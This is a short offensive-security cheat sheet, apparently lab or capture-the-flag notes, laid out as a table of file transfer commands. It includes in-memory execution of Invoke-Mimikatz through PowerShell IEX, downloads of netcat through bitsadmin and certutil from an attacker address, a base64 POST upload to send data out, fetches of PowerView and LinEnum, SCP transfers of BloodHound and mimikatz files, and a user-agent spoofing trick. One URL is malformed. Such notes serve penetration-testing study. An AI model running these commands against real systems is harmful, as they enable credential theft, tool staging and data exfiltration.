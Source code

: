 # File Download and Upload Commands

| Command                                                                                              | Description                                 |
|------------------------------------------------------------------------------------------------------|---------------------------------------------|
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                              | Download a file with PowerShell            |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                | Execute a file in memory using PowerShell  |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                              | Upload a file with PowerShell              |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                     | Download a file using Bitsadmin            |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                        | Download a file using Certutil             |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`     | Download a file using Wget                 |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`     | Download a file using cURL                 |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP                  |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                   | Upload a file using SCP                    |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                             | Download a file using SCP                  |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
